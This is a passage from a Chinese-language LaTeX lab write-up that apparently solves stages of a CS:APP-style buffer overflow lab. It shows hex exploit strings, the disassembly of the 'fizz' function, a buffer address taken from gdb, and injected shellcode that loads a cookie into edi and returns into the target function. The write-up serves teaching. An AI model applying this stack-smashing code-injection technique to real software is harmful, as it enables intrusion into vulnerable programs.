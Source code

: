 \subsection{Fizz的破解与分析}

\textbf{文本如下：}
\begin{lstlisting}
bf 1b fe f6 51 68 3b 10
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}

\textbf{分析过程：}

\begin{lstlisting}
000000000040103b <fizz>:
    40103b:	48 83 ec 08          	sub    $0x8,%rsp
    40103f:	89 fa                	mov    %edi,%edx
    401041:	3b 3d 65 51 20 00    	cmp    0x205165(%rip),%edi
    401047:	75 20                	jne    401069 <fizz+0x2e>
    401049:	be ea 26 40 00       	mov    $0x4026ea,%esi
    40104e:	bf 01 00 00 00       	mov    $0x1,%edi
    401053:	b8 00 00 00 00       	mov    $0x0,%eax
    401058:	e8 73 fd ff ff       	callq  400dd0 <__printf_chk@plt>
    40105d:	bf 01 00 00 00       	mov    $0x1,%edi
    401062:	e8 84 06 00 00       	callq  4016eb <validate>
    401067:	eb 14                	jmp    40107d <fizz+0x42>
    401069:	be 38 25 40 00       	mov    $0x402538,%esi
    40106e:	bf 01 00 00 00       	mov    $0x1,%edi
    401073:	b8 00 00 00 00       	mov    $0x0,%eax
    401078:	e8 53 fd ff ff       	callq  400dd0 <__printf_chk@plt>
    40107d:	bf 00 00 00 00       	mov    $0x0,%edi
    401082:	e8 79 fd ff ff       	callq  400e00 <exit@plt>
\end{lstlisting}

这里发现Fizz用edi与cookie进行比较，所以需要修改edi寄存器的值。

首先进入gdb查到buf的地址是0x55683cb0。

让程序运行我注入的代码:
\begin{lstlisting}
0:	bf 1b fe f6 51       	mov    $0x51f6fe1b,%edi  #cookie
5:	68 3b 10 40 00       	pushq  $0x40103b         #fizz
a:	c3                   	retq
\end{lstlisting}
修改了edi的值之后返回到fizz函数即可。

\subsection{Bang的破解与分析}

\textbf{文本如下：}
\begin{lstlisting}
c7 04 25 a4 61 60 00 1b
fe f6 51 68 87 10 40 00
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
\end{lstlisting}


